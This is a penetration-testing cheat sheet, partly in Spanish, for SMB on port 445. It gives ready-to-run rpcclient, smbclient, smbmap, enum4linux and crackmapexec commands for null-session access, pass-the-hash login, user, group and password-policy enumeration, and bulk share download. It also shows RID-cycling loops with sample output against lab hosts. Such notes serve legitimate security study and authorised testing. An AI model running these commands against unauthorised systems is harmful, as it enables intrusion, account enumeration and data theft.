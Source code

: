 # Port 445 - SMB



## Test connection

```bash
rpcclient -U "" -N <IP> #No creds
rpcclient -U "username%passwd" <IP> #With creds

smbclient --no-pass -L //<IP> # Null user
```



## Enumeration

### Basic Info

```bash
enum4linux -a <TARGET-IP> [-u "" -p ""]

smbclient --no-pass //<TARGET-IP>/<Folder> # Null session

##### RPCCLIENT #####
# Test Connection
rpcclient -U "" -N <TARGET-IP> # Null session
rpcclient //machine.htb -U domain.local/<USER>%<HASH> --pw-nt-hash
rpcclient -U "<USER>%<PASS>" <TARGET-IP> #With creds

# Domain Info
querydominfo         # Description of the domain
enumdomains           # List domains in the network
getdompwinfo          # Password policy info

# Enum users
enumdomuser           # List all users
querydispinfo         # Description of users
queryuser <RID>       # Description of an user by his rid
queryuser <name>      # Description of an user by his name
lsaenumsid            # Enum sid's of users
lookupnames <Name>    # Enum sid's for an user
getusrdompwinfo <RID> # Password policy of an user

# Enum groups
enumdomgroups         # List of groups
querygroup <RID>      # Description of the group

querygroupmem <RID>   # List rid's of the users in this group
```

### Shared Folders

```bash
smbmap -H <TARGET-IP> -u 'asdasd' # Null session
smbmap [-u "username" -p "password"] -R [Folder] -H <TARGET-IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <TARGET-IP> [-P <PORT>] # Non-Recursive list

crackmapexec smb 10.10.10.192 -u 'asdasd' -p '' --shares # Null session
## RPCCLIENT
netshareenum
netshareenumall
netsharegetinfo <SHARE-NAME>

## Download Shared Folders
smbmap smbmap -H <TARGET-IP> -u 'username' -p 'password' --download '<Path>' # one file

smbclient //<target-ip>/<shared-foldaer> -N             # Null session
smbclient //<target-ip>/<shared-foldaer> -U "<username>%password>"
smb: \> prompt off         
smb: \> recurse on         
smb: \> mget * 
```

### Mount

<pre class="language-bash"><code class="lang-bash">apt install cifs-utils

<strong>mount -t cifs //&#x3C;ip>/&#x3C;shared> /mnt/&#x3C;somefolder> [-o username=&#x3C;algo>,password=&#x3C;algo>,domain=,rw]
</strong>umount /mnt/&#x3C;somefolder>
</code></pre>

## Explotación

### Rid Cycling

Este ataque consta de enumerar usuarios con sus RID's y SID's a través de una null session con rpcclient.

```bash
rpcclient -U "" -N 10.10.10.129 -c "lsaenumsid" # sin creds
found 6 SIDs

S-1-5-32-550
S-1-5-32-548
S-1-5-32-551
S-1-5-32-549
S-1-5-32-544

for i in $(seq 500 600); do rpcclient -U "" -N 10.10.10.129 -c "lookupsids S-1-5-32-$i" 2>/dev/null; done | grep -viE "unknown"
S-1-5-32-544 BUILTIN\Administrators (4)
S-1-5-32-545 BUILTIN\Users (4)
S-1-5-32-546 BUILTIN\Guests (4)
S-1-5-32-547 BUILTIN\Power Users (4)
...


# A nivel de sistema siempre existe el usuario root por lo que 
# podremos listar su sid, y este nos dará otro grupo de sids
# para seguir enumerando usuarios

rpcclient -U "" -N 10.10.10.129 -c "lookupnames root"                                              
root S-1-22-1-0 (User: 1)

for i in $(seq 0 600); do rpcclient -U "" -N 10.10.10.129 -c "lookupsids S-1-22-1-$i" 2>/dev/null; done | grep -viE "unknown" 
S-1-22-1-0 Unix User\root (1)
S-1-22-1-1 Unix User\daemon (1)
S-1-22-1-2 Unix User\bin (1)
S-1-22-1-3 Unix User\sys (1)
S-1-22-1-4 Unix User\sync (1)
S-1-22-1-5 Unix User\games (1)
```
